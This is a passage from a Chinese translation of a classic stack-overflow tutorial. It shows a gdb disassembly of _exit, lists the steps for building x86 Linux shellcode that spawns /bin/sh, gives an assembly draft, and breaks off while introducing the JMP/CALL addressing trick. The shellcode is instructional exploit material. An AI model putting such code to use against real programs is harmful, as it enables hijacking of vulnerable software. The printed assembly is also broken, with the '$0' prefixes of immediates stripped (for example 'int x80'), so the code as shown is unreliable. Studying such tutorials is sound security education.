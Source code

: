 ```
0x8000355 <_exit+9>: movl 0x8(%ebp),%ebx
0x8000358 <_exit+12>: int x80
0x800035a <_exit+14>: movl 0xfffffffc(%ebp),%ebx
0x800035d <_exit+17>: movl %ebp,%esp
0x800035f <_exit+19>: popl %ebp
0x8000360 <_exit+20>: ret
0x8000361 <_exit+21>: nop
0x8000362 <_exit+22>: nop
0x8000363 <_exit+23>: nop
End of assembler dump.
```

系统调用`exit`会把`0x1`放到寄存器EAX中, 在EBX中放置退出码, 并且执行`int 0x80`. 就这些了! 大多数应用程序在退出时返回0, 以表示没有错误. 我们在EBX中也放入0. 现在我们构造shell code的步骤就是这样的了:

a) 把以`NULL`结尾的字串`"/bin/sh"`放到内存某处.

b) 把字串`"/bin/sh"`的地址放到内存某处, 后面跟一个空的长字(null long word).

c) 把`0xb`放到寄存器EAX中.

d) 把字串`"/bin/sh"`的地址放到寄存器EBX中.

e) 把字串`"/bin/sh"`地址的地址放到寄存器ECX中.

(注: 原文d和e步骤把EBX和ECX弄反了)

f) 把空长字的地址放到寄存器EDX中.

g) 执行指令`int x80`.

h) 把`0x1`放到寄存器EAX中.

i) 把`0x0`放到寄存器EBX中.

j) 执行指令`int x80`.

试着把这些步骤变成汇编语言, 把字串放到代码后面. 别忘了在数组后面放上字串
地址和空字, 我们有如下的代码:

```asm
movl string_addr,string_addr_addr
movb x0,null_byte_addr
movl x0,null_addr
movl xb,%eax
movl string_addr,%ebx
leal string_addr,%ecx
leal null_string,%edx
int x80
movl x1, %eax
movl x0, %ebx
int x80
/bin/sh string goes here.
```

问题是我们不知道在要破解的程序的内存空间中, 上述代码(和其后的字串)会被放到哪里. 一种解决方法是使用JMP和CALL指令.JMP和CALL指令使用相对IP的寻址方式, 也就是说我们可以跳到距离当前IP一定间距的某个位置, 而不必知道那个位置在内存中的确切地址. 如果我们在字串`"/bin/sh"`之前放一个CALL指令, 并由一个JMP指令转到CALL指令上. 当CALL指令执行的时候, 字串的地址会被作为返回地址压入堆栈之中. 我们所需要的就是把返回地址放到一个寄存器之中. CALL指令只是调用我们上述的代码就可以了. 假定`J`代表JMP指令, `C`代表CALL指令, `s`代表字串, 执行过程如下所示:
